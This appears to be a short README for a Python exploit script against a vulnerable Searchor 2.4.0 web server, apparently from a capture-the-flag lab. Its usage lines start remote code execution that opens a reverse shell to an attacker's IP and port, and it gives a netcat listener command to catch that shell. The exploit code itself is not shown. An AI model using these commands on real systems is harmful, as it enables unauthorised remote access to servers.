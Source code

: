 
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

Usage example: 
 -  `python3 searchor_2.4.0_RCE.py <HOSTNAME> <ATK_IP> <ATK_PORT>`
 -  `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
It is recommended to use the following when preparing to catch the reverse shell:
 -  `rlwrap nc -lvnp <ATK_PORT>` 

Additional details about the vulnerability can be found in the official issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).

